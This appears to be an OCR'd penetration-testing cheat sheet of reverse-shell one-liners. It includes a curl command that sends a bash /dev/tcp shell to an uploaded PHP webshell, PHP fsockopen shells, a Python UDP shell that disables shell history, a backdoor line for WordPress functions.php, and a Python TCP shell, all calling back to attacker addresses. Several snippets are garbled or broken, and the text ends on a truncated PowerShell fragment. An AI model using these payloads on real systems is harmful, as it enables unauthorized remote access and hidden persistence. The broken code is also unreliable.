 This one liner can be Executed in Windows cmd or Kali shell. Another way is by uploading it as a webshell and then setting \[cmd] equals to bash reverse shell that connects back to your listener. Example with \[curl] is below

```bash
curl http://ip/assets/cmd.php -d "cmd=bash -c 'bash -i >%26 /dev/tcp/ip/port 0>%261'"
```

#### php one liners \[3]

```php
[1] php -r '$sock=fsockopen("192.168.1.10",3333);exec("/bin/sh -i <&3 >&3 2>&3");'

[2] ? php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.1.2:4444 0>&1'"); ?

[3] ?php -r '$sock=fsockopen("192.168.1.2",4444);exec("/bin/sh -i <&3 >&3 2>&3");' ?
```

The one liners can be used inside targeted php files as well.

#### Python UDP reverse shell

This reverse shell can be placed in a python script or within a python console.

```python
import subprocess;subprocess.Popen(["python", "-c", 'import os;import pty;import socket;s=socket.socket(socket.AF_INET,socket.SOCK_DGRAM);s.connect((\"ip\", 1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);os.putenv(\"HISTFILE\",\"/dev/null\");pty.spawn(\"/bin/sh\");s.close()'])
```

For the above shell to work, we need to use \[socat] listener

```python
socat file:`tty`,echo=0,raw udp-listen:1234
```

#### Wordpress one liner php reverse shell to be added to functions.php or any plugin file

```python
@$sock=fsockopen("FrontGun_IP",443);exec("/bin/sh -I <&3 >&3 2>&3");
```

#### Python reverse shell to connect back to attacker box

\[one]

```python
import socket
import pty
s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.9.0.54",5555))
dup2(s.fileno(),0)
dup2(s.fileno(),1)
dup2(s.fileno(),2)
pty.spawn("/bin/bash")
```


[Text.Encoding]: :ASCII)) .ReadToEnd() ;"
